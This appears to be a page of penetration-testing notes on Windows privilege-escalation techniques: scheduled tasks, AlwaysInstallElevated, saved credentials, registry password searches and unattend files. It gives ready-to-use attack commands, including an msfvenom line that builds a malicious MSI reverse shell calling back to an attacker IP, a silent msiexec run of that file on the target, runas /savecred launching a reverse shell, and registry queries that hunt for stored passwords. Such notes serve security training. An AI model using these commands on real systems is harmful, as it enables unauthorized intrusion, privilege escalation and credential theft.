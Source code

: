 # Quick Wins

## Scheduled Tasks

Scheduled tasks can be listed from the command line using the `schtasks` command, using the task scheduler, or, if possible, uploading a tool such as Autoruns64.exe to the target system.

## AlwaysInstallElevated



Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges if the installation requires administrator privileges.\
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

\
This method requires two registry values to be set. You can query these from the command line using the commands below.\
\
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`\
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`\
\
Remember, to be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible.\
If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below.\
\
`msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_10.10.200.175 LPORT=LOCAL_PORT -f msi -o malicious.msi`\
\
As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly.\
\
Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell.

Command Run on the Target System

```shell-session
C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Passwords

### Saved credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials.\
`cmdkey /list`\


If you see any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.\
`runas /savecred /user:admin reverse_shell.exe`\


### **Registry keys**

Registry keys potentially containing passwords can be queried using the commands below.\
`reg query HKLM /f password /t REG_SZ /s`\
`reg query HKCU /f password /t REG_SZ /s`\


### **Unattend files**

Unattend.xml files helps system administrators setting up Windows systems. They need to be deleted once the setup is complete but can sometimes be forgotten on the system. What you will find in the unattend.xml file can be different according to the setup that was done. If you can find them on a system, they are worth reading.
